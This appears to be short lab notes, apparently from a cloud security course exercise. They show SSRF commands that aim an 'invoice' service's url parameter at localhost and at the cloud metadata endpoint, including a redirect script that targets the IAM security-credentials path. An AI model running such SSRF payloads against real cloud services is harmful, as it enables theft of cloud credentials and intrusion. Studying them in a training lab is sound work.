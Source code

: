 Makes the fetching more verbose
```python
curl -v http://invoice.awesome-sparrow.sec588.cloud/url?url=fake://localhost:8080/
```

Does not show the progress or error messages
```python
curl -s http://invoice.awesome-sparrow.sec588.cloud/url?url=http://169.254.169.254/latest/user-data/
```

Uses the python script to take a GET request and submit a 301 redirect to your chosen URL
```python3
python3 adminer.py --port 9999 http://169.254.169.254/latest/meta-data/iam/security-credentials/class-eksctl-awesome-sparrow-workers
```
>
    --port is the port we're listening on

